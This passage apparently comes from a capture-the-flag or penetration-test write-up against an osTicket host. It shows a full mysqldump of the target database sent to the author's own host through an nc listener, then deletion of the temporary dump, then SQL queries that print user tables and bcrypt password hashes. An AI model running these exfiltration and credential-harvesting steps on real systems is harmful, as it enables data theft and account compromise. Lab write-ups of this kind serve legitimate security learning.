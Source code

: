 ```bash
# On my host
$ nc -l 51337 -v > db_dump.sql

# On the target host
$ mysqldump -A -u ost_user -p > /tmp/db_dump.sql
Enter Password:
$ nc 10.10.42.57 51337 < /tmp/db_dump.sql
$ rm /tmp/db_dump.sql

# Repeated the procedure for a dump of `osticket` only to get a "clean" dump.
```

Let's peek at the tables directly and try to find some password hashes or something:

```sql
-- Issued specific SQL SELECT's for readability
MariaDB [osticket]> select id, name from ost_user;
+----+----------------------------------+
| id | name                             |
+----+----------------------------------+
|  1 | osTicket Support                 |
|  2 | bob                              |
|  3 | 9ecfb4be145d47fda0724f697f35ffaf |
|  4 | c3ecacacc7b94f909d04dbfd308a9b93 |
|  5 | ff0a21fc6fc2488195e16ea854c963ee |
|  6 | 5b785171bfb34762a933e127630c4860 |
|  7 | saint                            |
|  8 | sdfsdf                           |
|  9 | hacking                          |
| 10 | test                             |
| 11 | hacker                           |
+----+----------------------------------+
11 rows in set (0.000 sec)

MariaDB [osticket]> select * from ost_user__cdata;
+---------+-------+------+-------+-------+
| user_id | email | name | phone | notes |
+---------+-------+------+-------+-------+
|       1 | NULL  | NULL | NULL  | NULL  |
|       2 | NULL  | NULL |       |       |
|       3 | NULL  | NULL |       |       |
|       4 | NULL  | NULL |       |       |
|       5 | NULL  | NULL |       |       |
|       6 | NULL  | NULL |       |       |
|       7 | NULL  | NULL |       |       |
|       8 | NULL  | NULL |       |       |
|       9 | NULL  | NULL |       |       |
|      10 | NULL  | NULL |       |       |
|      11 | NULL  | NULL |       |       |
+---------+-------+------+-------+-------+
11 rows in set (0.000 sec)

MariaDB [osticket]> select id,user_id,username,passwd from ost_user_account;
+----+---------+----------+--------------------------------------------------------------+
| id | user_id | username | passwd                                                       |
+----+---------+----------+--------------------------------------------------------------+
|  1 |       7 | NULL     | $2a$08$yY4HDrD1SatcwG89gmnY8.1tE8JJYPZWQ.0NyzE6bayBzQxByA9/m |
|  2 |       9 | NULL     | $2a$08$WfQ7XIF27W3LkrePzhnV/e.auNW3cipNu4foex4H8kfrVdvTl.Rge |
+----+---------+----------+--------------------------------------------------------------+
2 rows in set (0.000 sec)
```
